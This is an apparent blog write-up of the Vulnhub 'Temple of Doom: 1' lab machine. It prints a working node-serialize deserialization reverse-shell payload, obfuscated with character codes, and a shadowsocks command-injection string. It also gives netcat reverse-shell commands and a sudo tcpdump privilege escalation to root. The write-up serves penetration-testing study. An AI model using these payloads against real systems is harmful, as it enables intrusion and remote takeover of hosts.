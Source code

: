 ```yaml
---
layout: post
title:  "[Vulnhub] Temple of Doom: 1 Write-up"
subtitle: ""
author: Mars Cheng
tags: 
- Penetration Testing
- Vulnhub
- OSCP
- Write-up
---
```

## Overview

>This is a vulnerable machine from vulnhub, and the write-up refers some internet resources. If any 
mistake or suggestion, please let we konw. Thanks.


## Walkthrough
1. Information gathering 
2. Discovering Node.js node-serialize remote code execution(CVE-2017-5941)
3. Discovering shadowsocks command injection 
4. Discovering insecure file system permissions 
5. Get root priviilage

### 1. Information gathering

As usual, we firstly use Nmap to scan the machine which tool can discover machine port status, service, and version. <br>
We find the port 666 open and provide Node.js Express framework service.
```java
[18:47:31] root:~ # nmap -A 192.168.1.103
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-18 18:47 CST
Nmap scan report for 192.168.1.103
Host is up (0.0013s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:BB:24:1C (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   1.30 ms 192.168.1.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.90 seconds
```

### 2. Discovering Node.js node-serialize remote code execution(CVE-2017-5941)

We browse web service, and find the SyntaxError about node-serialize. So we google it, and find CVE-2017-5941 vulnerability.
<div style="text-align: center">
<img src="https://i.imgur.com/eETtWpY.png"/>
</div>


```
SyntaxError: Unexpected token F in JSON at position 79
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/nodeadmin/.web/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/nodeadmin/.web/server.js:12:29
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at /home/nodeadmin/.web/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:335:12)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:275:10)
   ```
   
 Then we open Burp Suite tool, and the cookie profile is encoded by Base64.
 
 
<div style="text-align: center">
<img src="https://i.imgur.com/04aFYwy.png"/>
</div>


Decode it 
```json
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
  ```

<div style="text-align: center">
<img src="https://i.imgur.com/0XYybpY.png"/>
</div>

And we change the username from Admin to mars and base64 encode it.

<div style="text-align: center"> <img src="https://i.imgur.com/0XYybpY.png"/> </div>
<div style="text-align: center"> <img src="https://i.imgur.com/zvnyczN.png"/> </div>

<div style="text-align: center"> <img src="https://i.imgur.com/4fhai0e.png"/> </div>

<div style="text-align: center"> <img src="https://i.imgur.com/RzNpMrH.png"/> </div>

When receiving response "Hello mars", we confirm the username is a injection point, and we use nodejsshell to generate payload.

<div style="text-align: center"> <img src="https://i.imgur.com/gjXan65.png"/> </div>

We add the payload to username and base64 encode.

```javascript
# Node.js vulnerability 
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```


```json
{"username":"_$$ND_FUNC$$_function({eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,49,46,49,48,52,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```
<div style="text-align: center"> <img src="https://i.imgur.com/mwLUWyd.png"/> </div>


<div style="text-align: center"> <img src="https://i.imgur.com/ulWH73b.png"/> </div>

We open terminal and use nc command, and confirm the reverse shell success.

```java
[19:14:47] root:~ # nc -lvp 4444
listening on [any] 4444 ...


192.168.1.103: inverse host lookup failed: Unknown host
connect to [192.168.1.104] from (UNKNOWN) [192.168.1.103] 45252
Connected!
id
uid=1001(nodeadmin) gid=1001(nodeadmin) groups=1001(nodeadmin)
pwd
/home/nodeadmin

```
<div style="text-align: center"> <img src="https://i.imgur.com/DQopgJb.png"/> </div>

### 3. Discovering shadowsocks command injection 

We check the system process and find the ss-manager of fireman is working. In exploit-DB, we find exploit code and shown as follow:

```java
[nodeadmin@localhost home]$ ps aux | grep nodeadmin
ps aux | grep nodeadmin
nodeadm+   816  0.0  0.8 897512 36476 ?        Sl   08:09   0:00 /bin/node /home/nodeadmin/.web/server.js
nodeadm+   965  0.0  0.0 213788  1040 pts/0    S+   08:17   0:00 grep --color=auto nodeadmin
[nodeadmin@localhost home]$ ps aux | grep fireman
ps aux | grep fireman
root       825  0.0  0.1 301464  4504 ?        S    08:09   0:00 su fireman -c /usr/local/bin/ss-manager
fireman    836  0.0  0.0  37060  3784 ?        Ss   08:09   0:00 /usr/local/bin/ss-manager
nodeadm+   967  0.0  0.0 213788   968 pts/0    S+   08:17   0:00 grep --color=auto fireman
```

We open terminal and use nc command.

```java
[nodeadmin@localhost home]$ nc -u 127.0.0.1 8839
nc -u 127.0.0.1 8839
add: {"server_port":8003, "password":"test", "method":"||nc -e /bin/sh 192.168.1.104 4445||"}
add: {"server_port":8003, "password":"test", "method":"||nc -e /bin/sh 192.168.1.104 4445||"}
```
<div style="text-align: center"> <img src="https://i.imgur.com/lAN4jK7.png"/> </div>

<div style="text-align: center"> <img src="https://i.imgur.com/Y6Qx2zG.png"/> </div>

### 4. Discovering insecure file system permissions 

When we get reverse shell in port 4445, we are fireman.
We use sudo command to list the commands we can use, and find the tcpdump can be used. 


```java
[fireman@localhost /]$ sudo -l
sudo -l
Matching Defaults entries for fireman on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```



<div style="text-align: center"> <img src="https://i.imgur.com/XsJ2Qhy.png"/> </div>

Use tcpdump to get reverse shell.

```java
[fireman@localhost tmp]$ echo "nc -e /bin/bash 192.168.1.104 4446" > shell 
echo "nc -e /bin/bash 192.168.1.104 4446" > shell 
[fireman@localhost tmp]$ 

[fireman@localhost tmp]$ ls
ls
shell
systemd-private-619e6ead767c4e61b5d99fcd576d5b24-chronyd.service-CpZMEH
systemd-private-619e6ead767c4e61b5d99fcd576d5b24-rtkit-daemon.service-3pI3Q1

[fireman@localhost tmp]$ chmod 777 shell
chmod 777 shell
[fireman@localhost tmp]$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
<i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
11 packets received by filter
0 packets dropped by kernel
```

<div style="text-align: center"> <img src="https://i.imgur.com/SRv6Ggv.png"/> </div>

### 5. Get root priviilage

Open another terminal and use nc command.
```java
nc -vlp 4446 
```

<div style="text-align: center"> <img src="https://i.imgur.com/lUWYaNT.png"/> </div>




### Reference

[1] Vulhub <https://www.vulnhub.com/entry/temple-of-doom-1,243/> <br>
[2] Node.js exploit <https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf><br>
[3] <https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py><br>
[4] <https://www.exploit-db.com/exploits/43006/> <br>
[5] <http://seclists.org/tcpdump/2010/q3/68><br>

